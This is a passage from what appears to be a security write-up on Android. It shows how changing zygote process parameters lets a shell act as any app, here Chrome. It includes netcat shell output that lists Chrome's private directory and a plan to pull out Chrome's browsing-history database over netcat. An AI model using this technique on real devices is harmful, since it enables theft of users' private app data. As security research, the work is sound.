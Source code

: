 So let's change the value of `--seinfo` to the correct one for Chrome and try again:

```bash
$ adb shell nc -l -p 31337  
uid=10128(u0_a128) gid=10128(u0_a128) groups=10128(u0_a128),1065(reserved_disk),3009(readproc) context=u:r:untrusted_app:s0:c128,c256,c512,c768
/data/data/com.android.chrome
total 108
drwx------  12 u0_a128 u0_a128        4096 2025-04-17 17:42 .
drwxrwx--x 203 system  system        12288 2025-04-15 19:24 ..
drwx------  14 u0_a128 u0_a128        4096 2025-04-17 17:43 app_chrome
drwxrwx--x   3 u0_a128 u0_a128        4096 2025-04-17 17:42 app_dex
drwxrwx--x   3 u0_a128 u0_a128        4096 2025-04-17 17:42 app_tabs
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-15 19:24 app_textures
drwxrws--x   7 u0_a128 u0_a128_cache  4096 2025-04-17 17:42 cache
drwxrws--x   2 u0_a128 u0_a128_cache  4096 2025-04-15 19:24 code_cache
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-17 17:42 databases
drwxrwx--x   4 u0_a128 u0_a128        4096 2025-04-15 19:28 files
lrwxrwxrwx   1 root    root             27 2025-04-15 19:24 lib -> /product/app/Chrome/lib/x86
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-15 19:43 no_backup
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-17 17:42 shared_prefs
```
&nbsp;
It took us a couple of tries, but we made it. We became Chrome.

Now that we have some control and know that by changing the parameters `--setuid`, `--setgid`, and `--seinfo` we can act as any application, let's move on to the final goal.


### Extracting information

The challenge of extracting information lies in the fact that SELinux contexts and the application _sandbox_ will make this task quite difficult.

It's not enough to use a command to copy files from one directory to another (where _adb_ has access) and then pull them off the phone. One way or another, Android tries to prevent this kind of movement. Even a user like _system_ has many restrictions on where they can read and write.

In this experiment, we tried different methods: copying, redirecting, using _pipes_, etc., to move full files to a directory accessible by _adb_, but it was in vain. It's probably **NOT impossible**, and remains an open question.

However, the versatile _netcat_ gives us a pretty practical option: if we redirect the output of a file to _netcat_, and on the listening side redirect that output to a **local** file, we succeed. Let's try it out.

First, we need a file to exfiltrate. For example, Chrome's browsing history.

Using some gymnastics with the process/exploit we already have, we find that this file is located at:


```bash
/data/data/com.android.chrome/app_chrome/Default/History
```
&nbsp;
This file is a SQLite database (binary), a perfect target for the test. What we’ll do is modify the command that goes in `--invoke-with` to send the file over _netcat_:
